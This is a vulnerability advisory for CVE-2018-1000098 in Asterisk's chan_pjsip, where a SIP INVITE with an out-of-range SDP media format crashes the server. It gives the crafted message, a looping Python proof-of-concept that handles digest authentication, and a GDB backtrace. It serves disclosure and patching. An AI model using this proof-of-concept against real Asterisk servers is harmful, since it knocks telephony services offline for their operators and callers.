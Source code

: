 # Segmentation fault occurs in Asterisk with an invalid SDP media format description

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip`
- References: AST-2018-002, CVE-2018-1000098
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-03-asterisk-pjsip-sdp-invalid-media-format-description-segfault>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-002.html>
- Tested vulnerable versions: 13.10.0, 15.1.3, 15.1.4, 15.1.5, 15.2.0
- Timeline:
    - Report date: 2018-01-15
    - Vendor patch made available to us: 2018-02-05
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22

## Description

A specially crafted SDP message body with an invalid media format description causes a segmentation fault in asterisk using `chan_pjsip`.

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when `chan_pjsip` is in use.

## How to reproduce the issue

The following SIP message was used to reproduce the issue:

```
INVITE sip:5678@127.0.0.1:5060 SIP/2.0
To: <sip:5678@127.0.0.1:5060>
From: Test <sip:5678@127.0.0.1:5060>
Call-ID: 5493d4c9-8248-4c26-a63c-ee74bcf3e1e8
CSeq: 2 INVITE
Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK5493d4c9-8248-4c26-a63c-ee74bcf3e1e8
Contact: <sip:5678@172.17.0.1>
Content-Type: application/sdp
Content-Length: 115

v=0
o=- 1061502179 1061502179 IN IP4 172.17.0.1
s=Asterisk
c=IN IP4 172.17.0.2
m=audio 17002 RTP/AVP 4294967296
```


The problematic SDP section is:

```
m=audio 17000 RTP/AVP 4294967296
```


Notes: 

- authentication may be required 
- the destination SIP address should match a valid extension in the dialplan

To facilitate this process we wrote the following python program to reproduce this issue:

```python
import socket
import re
import md5
import uuid

SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060
UDP_IP = "0.0.0.0"
UDP_PORT = 13940
USERNAME = "5678"
PASSWORD = "5678"
INVITE_USERNAME = "5678"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind((UDP_IP, UDP_PORT))

while True:
    callid = str(uuid.uuid4())

    fmt = 4294967296

    sdpbody = "v=0\r\n" \
        "o=- 1061502179 1061502179 IN IP4 172.17.0.1\r\n" \
        "s=Asterisk\r\n" \
        "c=IN IP4 172.17.0.2\r\n" \
        "m=audio 17002 RTP/AVP %s" % fmt

    msg="INVITE sip:%s@%s:%i SIP/2.0\r\n" \
        "To: <sip:%s@%s:%i>\r\n" \
        "From: Test <sip:%s@%s:%s>\r\n" \
        "Call-ID: %s\r\n" \
        "CSeq: 2 INVITE\r\n" \
        "Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK%s\r\n" \
        "Contact: <sip:%s@172.17.0.1>\r\n" \
        "Content-Type: application/sdp\r\n" \
        "{{AUTH}}" \
        "Content-Length: %i\r\n" \
        "\r\n" % (
            INVITE_USERNAME, SERVER_IP, SERVER_PORT,
            INVITE_USERNAME, SERVER_IP, SERVER_PORT,
            USERNAME, SERVER_IP, SERVER_PORT,
            callid, callid,
            USERNAME, len(sdpbody)
            ) + \
        sdpbody

    sock.sendto(msg.replace("{{AUTH}}", ""), (SERVER_IP, SERVER_PORT))

    data, addr = sock.recvfrom(10240)

    if data.startswith("SIP/2.0 401"):
        for line in data.split('\r\n'):
            if line.startswith("WWW-Authenticate"):
                content = line.split(':', 2)[1].strip()
                realm = re.search("realm=\"([a-z]+)\"", content).group(1)
                nonce = re.search("nonce=\"([a-z0-9\/]+)\"", content).group(1)
                ha1 = md5.new(USERNAME + ":" + realm + ":" + PASSWORD).hexdigest()
                uri = "sip:%s:%i" % (SERVER_IP, SERVER_PORT)
                ha2 = md5.new("INVITE:" + uri).hexdigest()
                r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

                auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                    "realm=\"%s\"," % (realm) + \
                    "nonce=\"%s\"," % (nonce) + \
                    "uri=\"%s\"," % (uri) + \
                    "response=\"%s\"," % (r) + \
                    "algorithm=md5\r\n"

    sock.sendto(msg.replace("{{AUTH}}", auth), (SERVER_IP, SERVER_PORT))
```

The loop is required since a crash might not occur immediately.

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

### GDB backtrace result

```
gdb --args /opt/asterisk/sbin/asterisk -fcvvv

[Jan  2 16:07:36] DEBUG[45]: res_pjsip_session.c:743 handle_negotiated_sdp_session_media: Applied negotiated SDP media stream 'audio' using audio SDP handler
[Jan  2 16:07:36] ERROR[45]: pjproject:0 <?>: 	              except.c .!!!FATAL: unhandled exception PJLIB/No memory!


Thread 26 "asterisk" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff0297700 (LWP 45)]
__longjmp_chk (env=env@entry=0x0, val=val@entry=1) at ../setjmp/longjmp.c:32
32	../setjmp/longjmp.c: No such file or directory.
(gdb) bt
#0  __longjmp_chk (env=env@entry=0x0, val=val@entry=1) at ../setjmp/longjmp.c:32
#1  0x00007ffff78ed4ae in pj_throw_exception_ (exception_id=1) at ../src/pj/except.c:54
#2  0x00007ffff7868070 in pool_callback (pool=<optimized out>, size=<optimized out>) at ../src/pjsip/sip_endpoint.c:143
#3  0x00007ffff78f1a93 in pj_pool_create_block (size=1407375809856000, pool=0x7fff8c002c90) at ../src/pj/pool.c:63
#4  pj_pool_allocate_find (pool=0x7fff8c002c90, size=1407375809852724) at ../src/pj/pool.c:138
#5  0x00007ffff78fbb75 in pj_strdup (pool=pool@entry=0x7fff8c002c90, dst=dst@entry=0x7fff8c027638, src=src@entry=0x7fff8c025638) at ../include/pj/string_i.h:41
#6  0x00007ffff78b287e in pjmedia_sdp_media_clone (pool=pool@entry=0x7fff8c002c90, rhs=0x7fff8c025608) at ../src/pjmedia/sdp.c:691
#7  0x00007ffff78b4069 in pjmedia_sdp_session_clone (pool=pool@entry=0x7fff8c002c90, rhs=0x7fff8c01cdb8) at ../src/pjmedia/sdp.c:1422
#8  0x00007ffff7847f31 in create_sdp_body (c_sdp=<optimized out>, pool=0x7fff8c002c90) at ../src/pjsip-ua/sip_inv.c:1722
#9  process_answer (inv=inv@entry=0x7fff8c009f28, st_code=st_code@entry=200, local_sdp=local_sdp@entry=0x0, tdata=0x7fff8c002d38, tdata=0x7fff8c002d38) at ../src/pjsip-ua/sip_inv.c:2257
#10 0x00007ffff7848681 in pjsip_inv_answer (inv=0x7fff8c009f28, st_code=st_code@entry=200, st_text=st_text@entry=0x0, local_sdp=local_sdp@entry=0x0, p_tdata=p_tdata@entry=0x7ffff0296d10) at ../src/pjsip-ua/sip_inv.c:2393
#11 0x00007fff6b0f8f77 in answer (data=0x7fff8c00b298) at chan_pjsip.c:660
#12 0x00007ffff17cb180 in sync_task (data=0x7ffff290c510) at res_pjsip.c:4270
#13 0x00000000005fb3be in ast_taskprocessor_execute (tps=tps@entry=0x1dd6298) at taskprocessor.c:963
#14 0x0000000000602610 in execute_tasks (data=0x1dd6298) at threadpool.c:1322
#15 0x00000000005fb3be in ast_taskprocessor_execute (tps=0x1a401b8) at taskprocessor.c:963
#16 0x0000000000602af0 in threadpool_execute (pool=0x1ae0e88) at threadpool.c:351
#17 worker_active (worker=0x7fff94000948) at threadpool.c:1105
#18 worker_start (arg=arg@entry=0x7fff94000948) at threadpool.c:1024
#19 0x000000000060d4bd in dummy_start (data=<optimized out>) at utils.c:1257
#20 0x00007ffff5e3d6ba in start_thread (arg=0x7ffff0297700) at pthread_create.c:333
#21 0x00007ffff54263dd in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
(gdb) 
```

## Solutions and recommendations

Apply the patch issued by Asterisk at <http://www.asterisk.org/security> or upgrade to the latest release.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
